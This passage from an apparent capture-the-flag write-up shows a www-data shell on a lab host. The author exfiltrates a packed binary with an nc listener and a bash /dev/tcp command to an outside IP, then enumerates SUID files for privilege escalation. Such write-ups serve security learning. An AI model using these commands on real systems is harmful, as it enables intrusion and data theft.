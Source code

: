 You can see there is a executable on mike's home directory.
Lets try to execute that.

```bash
www-data@host1:/home/mike$ ./1cryptupx
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝
```

I guess we need to reverse engineer this binary.

Lets download the binary to our machine and start reverse engineering.

```bash
# On my machine
❯ nc -lvnp 5555 > binary
Listening on 0.0.0.0 5555
Connection received on 10.10.84.234 58730

# On target
www-data@host1:/home/mike$ bash -c 'cat 1cryptupx > /dev/tcp/10.21.206.128/5555'
```

I firstly looked the strings of the binary

```bash
strings binary
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.96 Copyright (C) 1996-2020 the UPX Team. All Rights Reserved. $
```

And it is packed with upx.

But before starting to reverse engineering maybe ı need to try some strings into binary.

This binary is not SUID even if we had reverse engineered this it would'nt mattered it anyways. I think there is probaly SUID version of this binary.

```bash
www-data@host1:/usr/share/man/zh_TW$ find / -type f -perm /4000 2>/dev/null
/usr/share/man/zh_TW/crypt
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/mount
/bin/ping
/bin/su
/bin/umount
/bin/fusermount
/bin/ping6
```
